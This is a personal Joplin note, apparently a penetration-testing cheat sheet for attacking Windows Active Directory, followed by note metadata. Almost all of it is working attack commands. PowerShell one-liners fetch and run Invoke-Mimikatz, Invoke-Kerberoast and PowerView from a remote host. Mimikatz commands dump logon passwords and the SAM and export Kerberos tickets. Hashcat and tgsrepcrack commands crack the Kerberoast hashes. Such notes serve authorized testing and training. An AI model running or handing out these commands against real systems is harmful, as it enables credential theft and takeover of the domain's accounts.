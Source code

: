 0. Cheat Sheet

# Remote Mimikatz

powershell -nop "IEX(New-Object System.Net.WebClient).downloadString('http://10.10.14.9:8000/Invoke-Mimikatz.ps1')"

Invoke-Mimikatz -DumpCreds #Dump creds from memory

Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"'

kerberos::list /export

<ins>**NOTE:**</ins>mimikatz latest version doesn't work on 1809 build of windows. Use the older version 'mimikatzold64.exe'

# Remote Kerberoast

## Hashcat method - MUCH FASTER

powershell -ep bypass "IEX(New-Object System.Net.WebClient).downloadString('[http://10.10.14.9:8000/Invoke-Kerberoast.ps1](http://10.10.14.9:8000/ipw.ps1)') ; Invoke-Kerberoast -OutputFormat HashCat  | Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash0.txt"

klist

\# Send back to kali and run hashcat

hashcat -m 13100 --force -a 0 -o Kerb-Cracked.txt kerb-Hash0.txt /usr/share/wordlists/rockyou.txt

## Using Invoke-Mimikatz

> Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "kerberos::list /export" "lsadump::sam" "exit"'
> 
> \# Transfer file back to kali
> 
> python3 /usr/share/kerberoast/tgsrepcrack.py /usr/share/wordlists/rockyou.txt &lt;.kirbi file&gt;

# PowerView \[Get Currently logged on usernames\]

Import-Module .\\PowerView.ps1 OR powershell -nop "IEX(New-Object System.Net.WebClient).downloadString('[http://10.10.14.9:8000/PowerView.ps1](http://10.10.14.9:8000/ipw.ps1)')"

Get-NetLoggedon -ComputerName &lt;workstation&gt; # NetWkstaUserEnum - get logged on user list

Get-NetSession -ComputerName &lt;DC&gt; # NetSessionEnum - Get active sessions

## If there are logon users

> \# Obtain Mimikatz console
> 
> sekurlsa::logonpasswords

# All libraries are in ~/ADlibs

id: 47d7422e06d948c0ba7ec81fc6caab6d
parent_id: ac0bd99a1a324cb6a297fd05a2b92039
created_time: 2022-04-20T03:39:15.830Z
updated_time: 2022-04-22T06:28:27.882Z
is_conflict: 0
latitude: 1.30360000
longitude: 103.85540000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-04-20T03:39:15.830Z
user_updated_time: 2022-04-22T06:28:27.882Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1